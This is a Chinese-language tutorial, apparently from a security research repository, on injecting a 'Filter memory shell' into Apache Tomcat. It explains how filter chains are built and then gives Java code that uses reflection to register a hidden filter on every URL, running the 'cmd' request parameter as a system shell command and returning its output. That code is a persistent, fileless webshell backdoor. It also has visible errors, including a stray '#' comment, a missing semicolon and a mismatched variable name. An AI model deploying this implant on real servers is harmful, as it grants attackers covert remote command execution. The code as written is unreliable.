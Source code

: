 # Filter内存马

## 1.基础知识

> Filter正常是用来处理请求和相应的处理和过滤，如下图：
>
> ![img](./img/filter-demo.png)
>
> ​										     	来自 --- [中间件内存马注入&冰蝎连接](https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g)

如上图，Filter类似于一个网关的作用，请求需要先通过定义的Filter(可能是一个或多个)，然后再调用到Servlet。

`FilterDef`: 存放`FilterDef`的数组被称为`FilterDefs`，每个`FilterDef`定义了一个具体的过滤器，包括描述信息、名称、过滤器实例以及`class`等，

`FilterDefs`:它只是过滤器的抽象定义.

`FilterConfigs`: 这些过滤器的具体配置实例，我们可以为每个过滤器定义具体的配置参数，以满足系统的需求；

`FilterMaps`: 用于将`FilterConfigs`映射到具体的请求路径或其他标识上，这样系统在处理请求时就能够根据请求的路径或标识找到对应的`FilterConfigs`，从而确定要执行的过滤器链；

`FilterChain`: 由多个`FilterConfigs`组成的链式结构，它定义了过滤器的执行顺序，在处理请求时系统会按照`FilterChain`中的顺序依次执行每个过滤器，对请求进行过滤和处理。

## 2.原理分析

因为在Servlet容器的文章有提到，各个容器之前是父子关系，层层嵌套的也意味着上层具有下层的信息，而Filter是在Wrapper容器中，在Context调用完成之后会先调用Filter然后在调用service方法去触发servlet。当我们定义filter的时候就可以把信息加入到context中，使得当web应用不重启定义的filter就不会失效。

关键点在于 理解的就是为什么我们在standardContext里增加filterDef、filterConfig、filterMap之后就能够动态注册。关键代码位于`ApplicationFilterFactory#createFilterChain(...)`中，以下只摘抄部分进行解释：

当调用到该方法后，先判断 servlet 存不存在：

```java
if (servlet == null) {
    return null;
}
```

判断request对象的父类是不是Request。获取当前的FilterChain，如果没有就创建一个，设置到当前的请求中。

```java
        ApplicationFilterChain filterChain = null;
        if (request instanceof Request) {
            Request req = (Request) request;
            if (Globals.IS_SECURITY_ENABLED) {
                // Security: Do not recycle
                filterChain = new ApplicationFilterChain();
            } else {
                filterChain = (ApplicationFilterChain) req.getFilterChain();
                if (filterChain == null) {
                    filterChain = new ApplicationFilterChain();
                    req.setFilterChain(filterChain);
                }
            }
        } else {
            // Request dispatcher in use
            filterChain = new ApplicationFilterChain();
        }
```

获取 standardContext 之后，通过调用 `findFilterMaps()` 获取所有有定义的filterMap，

```
        StandardContext context = (StandardContext) wrapper.getParent();
        filterChain.setDispatcherWrapsSameObject(context.getDispatcherWrapsSameObject());
        FilterMap filterMaps[] = context.findFilterMaps();

        // If there are no filter mappings, we are done
        if (filterMaps == null || filterMaps.length == 0) {
            return filterChain;
        }
```

遍历获取到的 filterMap 判断是否有匹配 Dispatcher 和 URL，如果有获取 FilterConfig 经过判断后，添加到filterChain中，之后还有 servlet 匹配的逻辑是相同的就是匹配的内容不同。

```java
        // Add the relevant path-mapped filters to this filter chain
        for (FilterMap filterMap : filterMaps) {
            if (!matchDispatcher(filterMap, dispatcher)) {
                continue;
            }
            if (!matchFiltersURL(filterMap, requestPath)) {
                continue;
            }
            ApplicationFilterConfig filterConfig =
                    (ApplicationFilterConfig) context.findFilterConfig(filterMap.getFilterName());
            if (filterConfig == null) {
                // FIXME - log configuration problem
                continue;
            }
            filterChain.addFilter(filterConfig);
        }
```

![image-20240429000622788](./img/image-20240429000622788.png)

根据以上的分析，在运行过程中，首先创建一个filterChain，然后获取到当前的 standardContext ，通过它获取已定义的 filterMap，然后再与 Dispatcher、URL、Servlet 进行匹配，匹配成功，往 filterChain 添加 filterConfigs。

## 3.代码实现

```java
  // 获取standardContext
  ServletContext servletContext = request.getSession().getServletContext();
  
  // 获取ApplicationContext
  Field applicationContextFacadeField = ApplicationContextFacade.class.getDeclaredField("context");
  applicationContextFacadeField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(servletContext);
   
  #获取StandardContext
  Field applicationContextField = ApplicationContext.class.getDeclaredField("context");
  applicationContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) applicationContextField.get(applicationContext);
  
  // 创建Filter
  Filter filter = new Filter(){
    @Override
    public void init(FilterConfig filterConfig) throws ServletException{}
    
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
          if (request.getParameter("cmd")!=null){
                String os = System.getProperty("os.name");
                boolean isLinux = true;
                if (os != null && os.toLowerCase().contains("win")){
                    isLinux = false;
                }
                String[] exp = isLinux ? new String[]{"sh","-c",request.getParameter("cmd")} : new String[]{"cmd.exe","/c",request.getParameter("cmd")};
                InputStream in  = Runtime.getRuntime().exec(exp).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }

            filterChain.doFilter(servletRequest,servletResponse);
    }
    
    @Override
    public void destory(){}
    
  };
 
  // 配置filterDef
  FilterDef filterDef = new FilterDef();
  filterDef.setFilter(filter);
  filterDef.setFilterName("MyFilter");
  filterDef.setFilterClass(filter.getClass().getName());
  standardContext.addFilterDef(filterDef);
  
  // 配置filterConfig
  // ApplicationFilterConfig的构造方法是default，那只能通过反射获取
  Constructor<ApplicationFilterConfig> applicationFilterConfigConstructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class)
  applicationFilterConstructor.setAccessible(true);
  ApplicationFilterConfig applicationFilterConfig = applicationFilterConfigConstructor.newInstance(standardContext,filterDef);
  
  Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
  filterConfigsField.setAccessible(true);
  Map map = (Map) filterConfigsField.get(standardContext);
  map.put("MyFilter",applicationFilterConfig);
  
  //配置filterMap
  FilterMap filterMap = new FilterMap();
  filterMap.addURLPattern("/*");
  filterMap.setFilterName("MyFilter");
  filterMap.setDispatcher(DispatcherType.REQUEST.name());
  standardContext.addFilterMapBefore(filterMap); //设置优先
```













